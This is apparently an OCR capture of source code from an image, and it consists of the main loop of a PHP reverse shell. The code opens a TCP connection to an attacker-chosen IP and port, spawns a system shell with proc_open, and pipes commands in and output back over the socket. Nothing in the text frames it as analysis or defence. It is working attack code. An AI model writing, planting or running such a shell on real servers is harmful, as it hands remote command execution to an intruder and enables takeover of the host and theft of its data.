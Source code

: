 ```
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}
// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}
	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}
	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}
	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
```